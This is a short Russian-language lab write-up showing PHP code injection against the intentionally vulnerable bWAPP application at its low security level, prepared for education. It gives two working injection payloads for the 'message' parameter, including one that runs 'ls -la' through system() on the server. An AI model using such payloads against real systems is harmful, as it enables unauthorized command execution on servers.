 # PHP Code Injection
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, который содержит задачи, основанные на ***уязвимости внедрения PHP-кода***. (**A03:2021 – Injection**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий

# Приложение
---

![PhpiTarget](images/PhpiTarget.png)

# Функционал
---

Приложение отображает текст, переданный через параметр `message`:

![PhpiFunction](images/PhpiFunction.png)

# Эксплуатация
---

Тестирование PoC нагрузки для внедрения PHP-кода:

``` PHP
?message=lol; echo "Hacked!"
```

![PhpiPoc](images/PhpiPoc.png)

Приложение уязвимо к внедрению PHP-кода!

Используя нагрузки на основе функции PHP `system()`, можно выполнять команды для просмотра файлов и выполнения других действий на сервере.

## Пейлоад

``` PHP
?message=lol; system("ls -la")
```

Исполнение нагрузки выведет все файлы в текущем каталоге с их правами доступа:

![PhpiSucces](images/PhpiSucess.png)
